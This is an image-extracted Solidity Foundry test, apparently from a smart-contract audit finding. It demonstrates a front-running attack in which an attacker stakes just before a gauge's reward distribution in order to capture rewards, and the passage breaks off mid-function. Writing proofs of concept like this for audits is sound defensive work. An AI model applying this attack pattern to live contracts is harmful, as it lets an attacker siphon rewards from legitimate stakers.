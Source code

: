 ```solidity 
     function testFrontRunningRewardDistributionAttack() public {
        // SETUP PHASE
        address legitimateUser = address(0x1);
        address attacker = address(0x2);
        
        emit log_string("\n=== Initial Setup ===");
        
        // Setup gauge weight
        deal(address(veToken), address(this), 1000e18);
        vm.startPrank(address(this));
        GaugeController(controller).vote(address(gauge), 10000);
        vm.stopPrank();
​
        // Deal tokens to users FIRST
        deal(address(stakingToken), legitimateUser, 1000e18);
        deal(address(stakingToken), attacker, 100e18);
        deal(address(rewardToken), address(gauge), 10000e18);
​
        // LEGITIMATE USER STAKES FIRST
        emit log_string("\n=== Legitimate User Stakes ===");
        vm.startPrank(legitimateUser);
        stakingToken.approve(address(gauge), 1000e18);
        gauge.stake(1000e18);
        vm.stopPrank();
​
        vm.warp(block.timestamp + 5 days);
​
        // ATTACK EXECUTION
        emit log_string("\n=== Attack Execution ===");
        
        // 1. Attacker front-runs with smaller stake
        vm.startPrank(attacker);
        stakingToken.approve(address(gauge), 100e18);
        emit log_string("Attacker Staking Flow:");
        gauge.stake(100e18);
        emit log_named_uint("Attacker Stake Amount", gauge.balanceOf(attacker));
        vm.stopPrank();
​
        // 2. Reward distribution happens
        vm.startPrank(address(this));
        emit log_string("\nReward Distribution Flow:");
        GaugeController(controller).distributeRevenue(
            IGaugeController.GaugeType.RAAC,
            10000e18
        );
        vm.stopPrank();
        
        // Let rewards accrue for 1 hour
        vm.warp(block.timestamp + 1 hours);
        
        // REWARD CLAIMS
        emit log_string("\n=== Reward Claims ===");
        
        // Trace attacker's reward claim
        emit log_string("\nAttacker Reward Claim Flow:");
        vm.startPrank(attacker);
        emit log_string("\nAttacker getReward Flow:");
        emit log_named_uint("Pre-claim rewardPerTokenStored", gauge.rewardPerTokenStored());
        emit log_named_uint("Pre-claim earned", gauge.earned(attacker));
        emit log_named_uint("Pre-claim balance", rewardToken.balanceOf(attacker));
​
        gauge.getReward();  // Triggers: updateReward -> _updateReward -> earned -> transfer
​
```